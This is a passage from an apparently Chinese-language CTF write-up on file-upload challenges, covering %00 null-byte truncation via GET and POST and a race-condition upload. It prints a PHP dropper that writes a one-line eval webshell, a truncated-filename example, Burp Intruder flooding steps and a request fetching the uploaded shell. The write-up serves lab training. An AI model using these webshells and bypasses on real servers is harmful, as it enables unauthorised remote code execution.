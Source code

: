 ![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDGC6UwFqtXicBMdEPSU7PrBN6bRNiaMDFWwacc3n2d1tdqOGO4VFtbH5w/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
00 截断多配合路径来截断，我们来抓包看看应该是存在路径信息的，然后直接在路径后面使用 %00 来截断一下就可以成功绕过，为啥 %00 直接就可以绕过了呢？这是因为路径信息是从 GET 方式传递个后端的，这样默认会进行一次 URL 解码，%00 解码后就是空字节：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDRStmkS4zGFUMh51ILEF7kOfpNhIgLZ9mFOTDiaCLtgTZ6a3dHG2Xu6g/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
这样保存的文件名就是这样的效果：  
  
BASH  
```
/usr/local/apache2/htdocs/upload/new.php%00shell.png
```  
  
因为 %00起到截断的作用，所以最终会在 upload 目录下面生成 new.php 的 webshell  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDeuZPN4zd5gf7QEpQlHDicLOA2SylI63JgJwOHp0IQPuVyRZJ4poTpNw/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
# 古老的漏洞 - 2  
  
国光这一题偷懒了，没有换题目外观，不过选手们抓包就会发现这是一个 POST 型的 00 截断：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDyDmAUnVMaV7EfQkyCaaia2dfeVfO36woRuUeZicph5rlMsJXRrW67Uibw/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
既然是 POST 型 00 截断那么就直接抓包吧，需要在 BP 里面写一个 %00 然后再 URL 手动解码一下：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDzLpSb8aia8gTysWMt2e0FaYicMibLVO7MIhlbhUJDaibqgLFdzia7OEJe6Q/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
# 条件竞争  
  
本题是一个条件竞争漏洞，也在题目中给了关键的功能代码贴图，以及给了解题思路了：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyD4SV0375PicVgsmWTUkqJickBic0bQJsgicic7Ulue2qlWnibmcFf8K5dkicHw/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
条件竞争的话稍微和正常的上传姿势不一样，先把题目中给的 webshell 信息复制出来备用：  
  
PHP  
```
<?php fputs(fopen('xiao.php','w'),'<?php eval($_REQUEST[1]);?>');?>
```  
  
然后先上传 shell.php 文件：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyDviblGANfCgF3vrovagWLYwdadspRWSVewI4l42bcO38TQmsjXvMyNsQ/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
BP 抓取这个数据包然后发送到 Intruder 测试器中使用 NULL 空值无限爆破：  
  
![](https://mmbiz.qpic.cn/mmbiz_png/0JJXjA8siccz3K8s9759nF0yjyoSgBpyD4jjqLsWjm1QF1hyVUUbOBLgAdZIY9ic5OZhHAh7bYVORMrtgQEiakk2g/640?wx_fmt=png&tp=wxpic&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
然后抓取访问 shell.php 的数据包：  
  
HTTP  
```
GET /upload/shell.php HTTP/1.1
Host: vul.xps.com:30009
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.14; rv:56.0) Gecko/20100101 Firefox/56.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Connection: close
Upgrade-Insecure-Requests: 1
```  
  